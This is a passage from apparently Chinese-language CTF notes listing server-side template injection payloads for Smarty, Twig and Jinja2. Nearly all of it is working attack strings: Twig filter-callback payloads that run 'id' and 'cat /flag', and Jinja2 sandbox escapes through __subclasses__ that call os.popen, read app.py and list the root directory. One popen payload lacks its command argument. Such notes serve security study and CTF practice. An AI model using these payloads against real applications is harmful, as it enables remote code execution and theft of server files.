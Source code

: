 最后在回显中查看代码执行情况即可

### 二、其他模板

#### 1.smarty

https://www.freebuf.com/column/219913.html

```
{if phpinfo()}{/if}
```

#### 2.Twig

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

### 三、爆破脚本

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen().read()}}{%endif%}{%endfor%}
```

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if 'warning' in c.__name__ %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if 'warning' in c.__name__ %}{{ c.__init__.__globals__['o'+'s'].listdir('/')}}{% endif %}{% endfor %}
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
